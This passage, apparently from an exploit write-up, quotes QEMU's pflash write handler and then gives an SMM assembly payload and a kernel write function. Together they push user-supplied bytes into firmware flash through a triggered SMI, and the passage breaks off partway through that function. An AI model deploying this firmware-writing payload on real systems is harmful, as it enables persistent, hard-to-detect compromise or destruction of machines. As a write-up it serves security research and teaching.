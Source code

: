 ```C
        case 0x40: /* Single Byte Program */
            trace_pflash_write(pfl->name, "single byte program (1)");
            if (!pfl->ro) {
                pflash_data_write(pfl, offset, value, width, be);
                pflash_update(pfl, offset, width);
            } else {
                pfl->status |= 0x10; /* Programming error */
            }
            pfl->status |= 0x80; /* Ready! */
            pfl->wcycle = 0;
        break;
[...]
```

I'm using single byte program because it's the simplest to deal with. To
perform a write of 1 byte, one needs to first write either 0x10 or 0x40,
followed by another write of the actual request. So, this ended up being my
SMM payload:

```asm
payload_stage3:
  push %rsi
  push %rbx
  mov payload_RtDataPhys(%rip),%rdx
  lea 0x1000(%rdx),%rsi
  mov 0x500(%rdx),%rbx
  mov 0x508(%rdx),%rcx
  test %rcx,%rcx
write_loop:
  jz write_return
  lodsb
  movb $0x10,(%rbx) // CFI Single Byte Program
  mov %al,(%rbx)
  inc %rbx
  dec %rcx
  jmp write_loop
write_return:
  pop %rbx
  pop %rsi
  ret
```

With that, the pflash write function:
```C
static ssize_t pflash_misc_write(struct file *file, const char __user *buf,
				 size_t count, loff_t *ppos)
{
	unsigned long *shared_pos = RtDataVirt + 0x500;
	unsigned long *shared_len = shared_pos + 1;

	if (*ppos >= FW_SIZE)
		return 0;

	count = min_t(size_t, count, FW_SIZE - *ppos);
	count = min_t(size_t, count, PAGE_SIZE);

	if (copy_from_user(RtDataVirt + 0x1000, buf, count))
		return -EFAULT;

	*shared_pos = FW_BASE_ADDRESS + *ppos;
	*shared_len = count;

	mb();
	smi();

```